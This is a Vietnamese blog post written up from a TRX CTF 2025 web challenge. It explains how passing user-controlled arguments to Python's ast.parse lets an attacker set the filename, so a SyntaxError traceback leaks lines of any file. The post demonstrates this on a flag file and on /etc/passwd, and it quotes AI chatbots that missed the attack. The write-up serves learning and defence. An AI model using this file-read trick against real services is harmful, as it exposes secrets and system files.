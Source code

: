 title: Đọc file tùy ý với ast.parse
date: 2025-02-26
tags: ast, Python, security,
category: pymi.vn
slug: ast_parse
authors: Pymier0
description: ast.parse chỉ parse code thành AST, liệu có đọc được file?

Bài trước [biến nhỏ hơn thành lớn hơn với ast]({filename}/ast_intro.md) giới thiệu sử dụng AST để biến code thành tree, giúp xử lý code theo kiến trúc (thay vì text).

Bài viết này có liên quan tới module `ast`, nhưng trong một hoàn cảnh khác... liên quan tới bảo mật.

### Đề bài - web TRX CTF 2025
Giải [TRX CTF 2025](https://ctftime.org/event/2654) có đề bài cho 1 trang web như sau:

```py
import ast
import traceback
from flask import Flask, render_template, request

app = Flask(__name__)

@app.get("/")
def home():
    return render_template("index.html")

@app.post("/check")
def check():
    try:
        ast.parse(**request.json)
        return {"status": True, "error": None}
    except Exception:
        return {"status": False, "error": traceback.format_exc()}

if __name__ == '__main__':
    app.run(debug=True)
```

một website flask đơn giản, nhận đầu vào tùy ý của người dùng và chạy `ast.parse`.
Một file `secret.py` nằm cùng thư mục, chứa flag

```py

def main():
    print("Here's the flag: ")
    print(FLAG)

FLAG = "TRX{fake_flag_for_testing}"

main()
```

Mục tiêu là đọc giá trị của `FLAG`.

### Đọc tài liệu ast.parse

```
Python 3.10.12 (main, Feb  4 2025, 14:57:36) [GCC 11.4.0] on linux
>>> import ast
>>> print(ast.parse.__doc__)

Parse the source into an AST node.
Equivalent to compile(source, filename, mode, PyCF_ONLY_AST).
Pass type_comments=True to get back type comments where the syntax allows.
```


Tài liệu không ghi gì hơn là đá sang đọc doc của builtin function compile:

```py
>>> print(compile.__doc__)
Compile source into a code object that can be executed by exec() or eval().

The source code may represent a Python module, statement or expression.
The filename will be used for run-time error messages.
The mode must be 'exec' to compile a module, 'single' to compile a
single (interactive) statement, or 'eval' to compile an expression.
The flags argument, if present, controls which future statements influence
the compilation of the code.
The dont_inherit argument, if true, stops the compilation inheriting
the effects of any future statements in effect in the code calling
compile; if absent or false these statements do influence the compilation,
in addition to any features explicitly specified.
```

**The source code may represent a Python module, statement or expression.  The filename will be used for run-time error messages.**

filename được dùng cho run-time error messages, nhưng không rõ ràng là dùng thế nào.
Trên doc trang chủ:

```
ast.parse(source, filename='<unknown>', mode='exec', *, type_comments=False, feature_version=None)¶
```
filename mặc định có giá trị là '<unknown>'.
Thử vài ví dụ:

```py
>>> ast.parse(open(ast.__file__).read(), '<unknown>')
<ast.Module object at 0x752c51f9d7e0>
>>> ast.parse('for i in range(10):\n    print(i)', '<unknown>')
<ast.Module object at 0x752c520ebcd0>
>>> ast.parse('for i in range(10):\n    print(i', '<unknown>')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "<unknown>", line 2
    print(i
         ^
SyntaxError: '(' was never closed
```
có thể thấy khi có SyntaxError, màn hình sẽ hiện ra dòng code bị lỗi syntax, và file '<unknown>' không đóng vai trò gì cả.

Nhưng khi gán filename="secret.py", dòng số 2 của file này lại hiện ra:

```py
>>> ast.parse("for i in range(10):\n    print(i", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 2
    def main():
             ^
SyntaxError: '(' was never closed
```

Vậy chỉ cần viết code xuống đến dòng thứ 6 rồi viết syntax error sẽ hiện ra FLAG:

```py
>>> ast.parse("\n\n\n\n\ndef", "secret.py")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "secret.py", line 6
    FLAG = "TRX{fake_flag_for_testing}"
       ^
SyntaxError: invalid syntax
```

Thậm chí có thể đọc file tùy ý, không cần phải code python:
```py
>>> ast.parse("def", "/etc/passwd")
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "/usr/lib/python3.10/ast.py", line 50, in parse
    return compile(source, filename, mode, flags,
  File "/etc/passwd", line 1
    root:x:0:0:root:/root:/bin/bash
       ^
SyntaxError: invalid syntax
```

Đọc code CPython, lần theo function [compile](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/bltinmodule.c#L759-L855) sẽ tháy

```
PyObject *
_PyErr_ProgramDecodedTextObject(PyObject *filename, int lineno, const char* encoding)
{
...
    FILE *fp = _Py_fopen_obj(filename, "r" PY_STDIOTEXTMODE);
```
trong [errors.c](https://github.com/python/cpython/blob/43a2a372ba071c4ebb1071240da2b852c29d77fb/Python/errors.c#L1946)


### Góc AI
Vác luôn đề hỏi các AI xịn nhất ngày nay xem:

[Claude.ai](https://claude.ai/chat/553d2e6f-62f4-4048-8480-f2e1367426f6)

> Given the code shown, I don't see a direct path to reading the FLAG from secret.py through the ast.parse() function alone. The function's parameters don't provide functionality to import or read other files in a way that would return their contents through the error messages.

sau một hồi đoán mò lung tung đủ thứ. ChatGPT 4o-mini dù phát hiện đoạn code có thể bị DOS attack, nhưng cũng nhầm lẫn tương tự và không thể tìm được cách tấn công.

Chờ bạn đọc chăm chỉ test với DeepSeek R1.

### Kết luận
`ast.parse` có thể đọc file tùy ý.

Hết.

HVN at <http://pymi.vn> and <https://www.familug.org>.

[Ủng hộ tác giả 🍺](https://www.familug.org/p/ung-ho.html)
